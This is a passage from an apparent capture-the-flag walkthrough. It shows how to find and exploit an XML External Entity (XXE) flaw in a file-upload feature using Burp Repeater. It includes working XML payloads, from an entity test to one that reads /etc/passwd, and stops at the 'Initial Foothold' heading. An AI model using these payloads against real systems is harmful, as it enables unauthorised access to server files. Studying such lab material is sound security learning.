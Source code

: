 To test this out, let’s first create an empty test.xml file and upload it. Intercept the request in Burp and send it to Repeater. Then send the request.

![](https://miro.medium.com/max/1265/1*kqshpTN8ocoZZKydfWy-lQ.png)

We get an internal server error, which probably means that there is a certain XML structure that the backend is expecting. The page did make mention of three XML elements: Author, Subject and Content. So after a bit of trail and error, we find that the following payload generated a 200 status code.

```text
<?xml version="1.0"?>
<test>
<Author>test</Author>
<Subject>test</Subject>
<Content>test</Content>
</test>
```

![](https://miro.medium.com/max/1232/1*L6Qepv936C8K1pSd1WBgLw.png)

Now that we have a working request, let’s see if it is vulnerable to XXE injection. Visit the [PayloadAllTheThings XXE](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection) section and perform the basic entity test that detects if this vulnerability exists.

```text
<?xml version="1.0"?>
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
<test>
<Author>&example;</Author>
<Subject>test</Subject>
<Content>test</Content>
</test>
```

The above payload includes the entity “example” in the DOCTYPE element. If the XML parser parses this entity, it will display the string “Doe” in the “Author” element.

![](https://miro.medium.com/max/1244/1*AwL7ROHXXS8n_BlpvebRMA.png)

As can be seen in the response, we now have confirmation that this upload functionality is vulnerable to an XXE injection.

## Initial Foothold <a id="ba18"></a>

Let’s take this exploit a step further and retrieve the content of the _/etc/passwd_ file.

```text
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
<test>
<Author>&test;</Author>
<Subject>test</Subject>
<Content>test</Content>
</test>
```
